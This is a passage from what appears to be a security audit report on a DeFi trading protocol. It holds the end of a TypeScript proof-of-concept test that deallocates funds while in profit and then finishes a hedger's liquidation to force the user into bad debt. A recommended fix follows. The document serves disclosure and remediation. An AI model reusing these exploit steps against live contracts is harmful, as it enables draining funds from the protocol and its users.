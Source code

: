 ```ts
    console.log("Position " + pos.id + ": type " + pos.positionType + ": " + pos.quantity/1e18 + " @ " + pos.openedPrice/1e18);
  }

  // deallocate max amount (upnl = -500 + 1000 = +500 for the user)
  // since we're in a profit, even after deallocating everything available we still have funds available, but can't deallocate more,
  // because allocated amount is already 0, and as it's unsigned, it can't go lower. This can be further exploited using another bug,
  // but that's out of this bug context
  await context.accountFacet.connect(this.user.signer).deallocate(decimal(1009), await getDummySingleUpnlSig(decimal(500)));

  // finish liquidation of user controlled hedger, forcing user in a big bad debt
  await context.liquidationFacet.connect(this.liquidator.signer).liquidatePositionsPartyB(
    this.hedger2.signer.address,
    this.user.signer.address,
    await getDummyQuotesPriceSig([3], [5]),
  )

  var info = await this.user.getBalanceInfo();
  console.log("partyA allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);

  var posCount = await this.context.viewFacet.partyAPositionsCount(this.user.getAddress());
  console.log("PartyA positions count: " + posCount);
  var openPositions = await this.context.viewFacet.getPartyAOpenPositions(
    this.user.getAddress(),
    0,
    posCount,
  );

  for (const pos of openPositions) {
    console.log("Position " + pos.id + ": type " + pos.positionType + ": " + pos.quantity/1e18 + " @ " + pos.openedPrice/1e18);
  }

});
```

## Tool used

Manual Review

## Recommendation

There are different ways to fix this vulnerability and it depends on what the team is willing to do. I'd say the safest fix will be to introduce some `temporarily locked` status for the partyA, and when any partyB is liquidated, connected partyA is put in this temporary status, which is lifted after liquidation finishes, so that the user can't do anything while in this status. However, this is a lot of work and possible room for more bugs.
